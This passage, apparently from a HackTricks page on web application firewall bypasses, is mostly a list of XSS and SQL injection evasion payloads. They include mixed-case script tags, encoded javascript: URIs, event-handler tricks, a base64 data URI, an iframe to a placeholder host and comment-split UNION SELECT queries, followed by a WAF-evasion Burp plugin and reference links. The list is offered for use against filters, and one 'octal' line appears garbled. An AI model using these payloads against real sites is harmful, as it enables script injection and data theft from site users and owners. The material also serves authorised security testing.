 ```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```

## Tools

- [**nowafpls**](https://github.com/assetnote/nowafpls): Burp plugin to add junk data to requests to bypass WAFs by length

## References

- [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/](https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/)
- [https://www.youtube.com/watch?v=0OMmWtU2Y_g](https://www.youtube.com/watch?v=0OMmWtU2Y_g)
- [https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization)


{{#include ../banners/hacktricks-training.md}}


